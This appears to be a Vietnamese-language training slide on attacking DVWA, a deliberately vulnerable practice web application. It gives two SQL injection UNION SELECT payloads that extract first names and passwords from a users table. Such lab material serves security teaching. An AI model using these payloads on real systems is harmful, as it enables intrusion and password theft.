

Tấn công trên DVWA
	tiêm câu lệnh :
		từ column_name ta lấy được giá trị trong đó
	1 and 1=1 union select first_name,password from [tên d.a].users #
	1 and 1=1 union select first_name,password from k888minhp_kBz.users #